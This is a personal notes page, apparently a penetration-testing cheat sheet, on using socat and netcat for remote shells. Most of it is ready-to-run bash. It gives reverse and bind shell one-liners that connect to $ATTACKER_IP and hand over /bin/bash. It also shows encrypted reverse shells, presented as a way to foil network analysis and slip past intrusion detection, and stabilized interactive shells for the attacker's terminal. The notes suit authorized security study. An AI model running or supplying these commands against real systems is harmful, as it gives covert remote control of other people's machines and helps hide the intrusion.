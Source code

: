 # Using "socat"

* **author**:: Nathan Acks
* **date**:: 2021-10-28

Socat: An anything-to-anything connector!

## "socat" vs. "netcat"

Equivalent commands between socat and netcat:

```bash
# Reverse shell (attacker)
#
nc -lnp $LISTENER_PORT
socat TCP-LISTEN:$LISTENER_PORT -

# Reverse shell (target)
#
nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"

# Bind shell (attacker)
#
nc $TARGET_IP $LISTENER_PORT
socat TCP:$TARGET_IP:$LISTENER_PORT

# Bind shell (target)
#
nc -lnp $LISTENER_PORT -e /bin/bash
socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"
```

Socat gets us an interactive login shell right out the gate, though we're still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

* [Using "netcat"](netcat.md)

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req --newkey rsa:2048 -nodes \
            -keyout shell.key -x509 -days 362 \
            -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li"
```

The `verify=0` directive turns off certificate validation, so this isn't a "secure" connection in the sense that it's been *authenticated*, but it is secure in the sense that it's *encrypted*.

## Shell "Stabilization"

Shell "stabilization" refers to the process of making a remote shell behave like a normal local shell - so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems.

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT \
      EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

Same thing, but over an encrypted connection:

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat \
	OPENSSL-LISTEN:$LISTENER_PORT,cert=$PEM_FILE,verify=0 \
	FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to "normalize" the
#              terminal's environment
#
socat \
	OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
	EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that the reverse shell will not pick up on your terminal size, so you'll need to manually specify it using `stty rows` and `stty cols`.
